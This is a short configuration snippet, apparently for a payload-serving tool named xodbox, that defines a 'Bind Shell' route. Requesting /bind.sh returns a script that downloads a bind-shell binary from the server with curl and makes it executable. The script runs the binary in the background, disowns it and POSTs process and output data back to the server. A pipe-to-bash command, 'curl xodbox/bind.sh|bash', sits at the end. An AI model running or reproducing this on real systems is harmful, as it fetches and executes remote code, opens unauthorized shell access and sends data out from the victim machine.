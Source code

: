 ```yaml
---
title: Bind Shell
description: Requires bind-shell in static dir
weight: 1
pattern: /bind.sh$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    DEST_FILE=/tmp/bs
    killall bs
    OS=$(uname)
    ARCH=$(uname -m)
    curl {{.Request.Host}}/mdaas/$OS/$ARCH/bind-shell > $DEST_FILE
    chmod +x $DEST_FILE
    bash -c "$DEST_FILE > /tmp/bso 2>&1 &" &
    r=$(ps aux | grep bs ;cat /tmp/bso; ls -lah /tmp/bs)
    disown

    echo $r
    curl "{{.Request.Host}}/l/res/" --data "$r" -X POST
---
```



```bash
curl xodbox/bind.sh|bash
```